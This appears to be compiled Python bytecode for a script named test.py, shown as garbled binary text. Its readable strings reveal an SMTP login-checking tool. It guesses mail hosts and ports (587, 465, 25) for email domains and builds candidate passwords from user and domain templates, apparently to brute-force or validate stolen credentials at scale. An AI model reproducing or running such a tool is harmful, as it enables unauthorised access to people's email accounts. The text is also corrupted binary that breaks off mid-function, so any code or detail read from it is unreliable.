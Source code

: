    R*   R'   R+   R4   RD   R?   RN   RA   t   sleepR%   (   R	   (    (    s   test.pyt   run¡   s    	

(   R   R   R   R4   RN   RP   (    (    (    s   test.pyR    K   s   	
		<c         C   s×   d |  k r d S|  j  ƒ  }  |  j d ƒ } t | ƒ d k  s] | d d k s] | d d k ra d S| d } xe t | d  d  d … d d !ƒ D]C \ } } y t | } | d | } WqŒ | d k rÊ d S| SXqŒ W| S(   Nt   .R   i   i    i   iÿÿÿÿi   (   R<   R:   RD   R>   t   tlds(   t   domt   partst   tmpR(   t   j(    (    s   test.pyt   tld2®   s     2
-
	t   consumerc           B   sJ   e  Z d  „  Z d „  Z d „  Z d „  Z d „  Z e d „ Z d „  Z	 RS(   c         C   sM   t  j j |  ƒ | |  _ d d d d g |  _ d d d g |  _ d |  _ d  S(	   NR   s   smtp.s   mail.s   webmail.iK  iÑ  i   i
   (   R!   R"   R   t   qt   hostst   portsR   (   R	   t   qu(    (    s   test.pyR   Å   s
    	c         C   s   | j  | d ƒ | j d ƒ S(   Ns   
i »
 (   t   sendt   recv(   R	   R   t   cmd(    (    s   test.pyt   sendCmdÍ   s    c         C   s4   t  r0 t d d ƒ j | d ƒ t j | ƒ n  d S(   Ns   bads.txtR8   s   
iÿÿÿÿ(   t   rbadsR   RB   t   badsRC   (   R	   t   ip(    (    s   test.pyt   addBadÐ   s    c   	      C   sK  t  j  t  j t  j ƒ } | j d ƒ | j |  j ƒ y³ t | } y^ |  j | d d k rn t j	 | ƒ } n  | j
 |  j | d | |  j | d f ƒ | SWnD t k
 ræ } t
 râ t j | ƒ t d d ƒ j | d ƒ n  d  SXWn t k
 rû n Xd | GHd d g t | <xó t |  j ƒ D]â \ } } xÓ t |  j ƒ D]Â \ } } y d	 | | d
 t | ƒ GHt  j  t  j t  j ƒ } | j d ƒ | j |  j ƒ | d k r¾t j	 | ƒ } n  | j
 | | | f ƒ | | g t | <| SWqAt k
 r} qAqAXqAWq%Wt j | ƒ y% t | =t d d ƒ j | d ƒ Wn n Xd  S(   Ni    i   iÑ  s   bads.txtR8   s   
s$   [*] Searching smtp host and port on iÿÿÿÿs   [*] Trying connection on t   :(   R   t   AF_INETt   SOCK_STREAMt   setblockingt
   settimeoutR   t   cacheR[   R   R   R4   RZ   R0   Ra   Rb   RC   R   RB   R   t   KeyErrorR>   R1   (	   R	   R
   t   st   dR3   R(   t   pRV   t   h(    (    s   test.pyt   findHostÖ   sN    

-
	
	

c   	      C   s  t  | ƒ } d | k r d Sd | k rb | j d d ƒ j d d ƒ j d d ƒ } | j d | ƒ Sd | k r¨ | j d d ƒ j d d ƒ j d d ƒ } | j d | ƒ Sd | k r| j d d ƒ j d d ƒ j d d ƒ j d	 d
 ƒ j d d ƒ j d
 d ƒ } | j d | ƒ Sd | k r:| j d | j d d ƒ ƒ Sd | k rd | k rd| j d ƒ } n< d | k r‚| j d ƒ } n d | k r | j d ƒ } n  | GHy[ | j d d ƒ j d ƒ d } t | ƒ } | j d t  | ƒ d | | d ƒ } | SWqt k
 r} d  SXn  | S(   Ns   %null%R   s   %user%t   -RQ   t   _s   %User%s	   %special%R3   t   3R(   t   1R8   t   @s   %domain%s   %partt   %i    i   (   R1   R;   R:   t   intR0   R   (	   R	   t   passwR#   t   domainRT   Ro   R(   Rn   R3   (    (    s   test.pyt   getPass  s<    **N(c   
      C   s‰  | d j  ƒ  } | } | d j  ƒ  } | t k s> | t k rB d S|  j | d j  ƒ  | j  ƒ  j d ƒ d | j  ƒ  j d ƒ d ƒ } | d  k r— d Sy t | d d k r² d SWn t k
 rÆ n X|  j | ƒ } | d  k ræ d St	 |  j
 t | d ƒ } | d k r| d 7} n  |  j t | d | } d	 | d
 | d | d | GHy×| j d ƒ }	 |	 d d
 !d k r |  j
 | d ƒ | j ƒ  |  j | ƒ S|  j
 | d ƒ }
 |  j
 | d ƒ }